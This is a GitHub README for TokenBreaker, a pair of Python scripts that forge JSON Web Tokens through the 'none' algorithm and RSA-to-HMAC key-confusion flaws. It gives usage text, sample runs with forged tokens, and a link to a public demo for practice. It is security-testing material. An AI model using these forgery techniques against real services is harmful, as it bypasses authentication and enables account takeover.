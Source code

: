# TokenBreaker

Token Breaker is focused on 2 particular vulnerability related to JWT tokens.

<ul>
  <li>None Algorithm</li>
  <li>RSAtoHMAC</li>
</ul>

Refer to <a href="https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/" >this</a> link about insights of the vulnerability and how an attacker can forge the tokens

<h1>TheNone Usage</h1>
<code>
<pre>
usage: TheNone.py [-h] -t TOKEN

TokenBreaker: 1.TheNoneAlgorithm

optional arguments:
  -h, --help            show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN
                        JWT Token value

Example Usage: python TheNone.py -t [JWTtoken]
</pre>
</code>

<h1>Output</h1>
<code><pre>
./TheNone.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6ImFkbSIsImlhdCI6IjE1Mzc1MjMxMjIifQ.ZWZhNjRmZDgzYWYzNDcxMjk5OTQ4YzE0NDVjMTNhZmJmYTQ5ZDhmYjY0ZDgyMzlhMjMwMGJlMTRhODA2NGU4MQ

Decoded Header value is : {"alg":"HS256","typ":"JWS"}
Decode Payload value is : {"login":"adm","iat":"1537523122"}

New header value with none algorithm:
{"alg":"none","typ":"JWS"}

Successfully encoded Token: 
eyJhbGciOiJub25lIiwidHlwIjoiSldTIn0.eyJsb2dpbiI6ImFkbSIsImlhdCI6IjE1Mzc1MjMxMjIifQ.
</pre></code>


<h1>RSAtoHMAC Usage</h1>
<code><pre>
usage: RsaToHmac.py [-h] -t TOKEN -p PUBKEY

TokenBreaker: 1.RSAtoHMAC

optional arguments:
  -h, --help                        show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN           JWT Token value
  -p PUBKEY, --pubkey PUBKEY        Path to Public key File

Example Usage: python RsatoHMAC.py -t [JWTtoken] -p [PathtoPublickeyfile]</pre></code>

<h1>Output</h1>
<code><pre>
./RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTUzNzUxODczMiwiZXhwIjoxNTM3NTE4ODUyLCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.GwWRgb31V7OaxFt9wMd8LlLWWi4Z3zJ4NL7k38yz2mRYzKht1cFYrsxQv4DJdGLwV6D6L08iwF7_J90usGnJoLw8OLVUZvcDRH8rgGtpICSjhv1qaWiHW4-Gcqet4NieJLuvZzJn2imV2-x5TUDJJICKUaj183EvuJTOnjWuD0-ieT3ixhXbm0-E_9LqsGIUJrRQZfPkFOgpH8OLaJYscJwUghWOEphYV-jeek91Qu3TJkeXUuIUUuCF_l6x3eIHheQ0eYLuFc7Ug85HFWemeQ4rK7kMr8sDd3YKnFwZIoDPF6gnnr3lNOydDbpjn-KHnu1oU0E2zk1NIgHPs4TVww -p /tmp/pub

Decoded Header value is : {"typ":"JWT","alg":"RS256"}
Decode Payload value is : {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1537518732,"exp":1537518852,"data":{"hello":"world"}}

Enter your header Value: {"typ":"JWT","alg":"HS256"}
Enter your payload value: {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1537518732,"exp":1537518852,"data":{"hello":"world"}}

Successfully encoded Token: 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTUzNzUxODczMiwiZXhwIjoxNTM3NTE4ODUyLCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.aZ03C84GU7WfIFsyvRzr9NUhtDQttOvA6CW5fUxGXmU
</pre></code>

<p>Try out this vulnerability <a href="http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php?">here</a></p>

